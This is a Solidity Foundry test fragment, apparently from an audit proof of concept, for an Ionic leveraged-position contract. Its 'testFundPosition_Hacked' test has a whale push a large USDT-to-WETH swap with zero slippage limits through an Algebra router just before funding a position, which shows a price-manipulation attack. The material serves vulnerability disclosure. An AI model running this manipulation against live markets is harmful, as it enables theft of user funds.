 ```solidity
    uint256[] memory newBorrowCaps = new uint256[](1);
    newBorrowCaps[0] = 1e36;

    IonicComptroller comptroller = IonicComptroller(ICErc20(wethMarket).comptroller());

    vm.prank(comptroller.admin());
    comptroller._setMarketBorrowCaps(cTokens, newBorrowCaps);

    _configurePair(wethMarket, USDTMarket);
    _fundMarketAndSelf(ICErc20(wethMarket), wethWhale);
    _fundMarketAndSelf(ICErc20(USDTMarket), USDTWhale);

    (position, maxLevRatio, minLevRatio) = _openLeveredPosition(address(this), depositAmount);
  }

    function testFundPosition() public {

      address USDT = 0xf0F161fDA2712DB8b566946122a5af183995e2eD; 
      vm.label(USDT,"USDT"); 
      deal(USDT, address(this), 3000e6);
      IERC20Upgradeable(USDT).approve(address(position), 3000e6);
      position.fundPosition(IERC20Upgradeable(USDT), 3000e6);

    }

    function testFundPosition_Hacked() public {

      address USDT = 0xf0F161fDA2712DB8b566946122a5af183995e2eD; 
      address Weth = 0x4200000000000000000000000000000000000006; 
      vm.label(USDT,"USDT"); 
      deal(USDT, address(this), 3000e6);

      deal(USDT, USDTWhale, 100000e6); 
      address AlgrebraSwapRouter = 0xAc48FcF1049668B285f3dC72483DF5Ae2162f7e8; 

      vm.startPrank(USDTWhale);
      IERC20Upgradeable(USDT).approve(address(AlgrebraSwapRouter), 50000e6);
      ISwapRouter.ExactInputSingleParams memory params = ISwapRouter.ExactInputSingleParams(
        address(USDT),
        Weth,
        address(this),
        block.timestamp,
        50000e6,
        0, // amountOutMinimum
        0 // limitSqrtPrice
      );
      ISwapRouter(AlgrebraSwapRouter).exactInputSingle(params);
      vm.stopPrank(); 


      IERC20Upgradeable(USDT).approve(address(position), 3000e6);
      position.fundPosition(IERC20Upgradeable(USDT), 3000e6);

    }
}
```
